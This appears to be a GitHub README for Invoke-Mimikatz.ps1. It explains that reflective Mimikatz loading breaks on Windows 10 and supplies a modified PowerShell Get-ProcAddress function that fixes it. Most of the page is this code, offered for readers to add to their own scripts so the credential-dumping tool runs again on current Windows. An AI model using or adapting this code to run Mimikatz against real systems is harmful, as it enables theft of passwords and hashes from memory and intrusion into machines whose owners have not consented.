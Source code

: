 # Invoke-Mimikatz.ps1

So basically unless you have bleeding edge powersploit right now, then Reflective Mimikatz wont work on **Windows 10**, however with a little change to the 'Get-ProcAddress' function you can get it working. Basically within Windows 10 the function now takes two arguments ^.\^
> Here's the function change if you want to add it into any of your own scripts.

    Function Get-ProcAddress
	{
	    Param
	    (
	        [OutputType([IntPtr])]
	        [Parameter( Position = 0, Mandatory = $True )]
	        [String]
	        $Module,
	        [Parameter( Position = 1, Mandatory = $True )]
	        [String]
	        $Procedure
	    )
	    $SystemAssembly = [AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') };
        $UnsafeNativeMethods = $SystemAssembly.GetType('Microsoft.Win32.UnsafeNativeMethods');
        # Get a reference to the GetModuleHandle and GetProcAddress methods
        $GetModuleHandle = $UnsafeNativeMethods.GetMethod('GetModuleHandle');
        #Deal with the fact that windows now has two of these, we'll select the second one
        $x=$($UnsafeNativeMethods.GetMethods() | where-object {$_.name -eq "getprocaddress"});

        if(Get-Member -InputObject $x -Name Length -MemberType Properties) {
            write-host $x | format-table
            $GetProcAddress = $x[1];
        } else {
            $GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress', [reflection.bindingflags] "Public,Static", $null, [System.Reflection.CallingConventions]::Any, @((New-Object System.Runtime.InteropServices.HandleRef).GetType(), [string]), $null);
        }
            
	    $Kern32Handle = $GetModuleHandle.Invoke($null, @($Module))
	    $tmpPtr = New-Object IntPtr
	    $HandleRef = New-Object System.Runtime.InteropServices.HandleRef($tmpPtr, $Kern32Handle)
	    Write-Output $GetProcAddress.Invoke($null, @([System.Runtime.InteropServices.HandleRef]$HandleRef, $Procedure))
	}
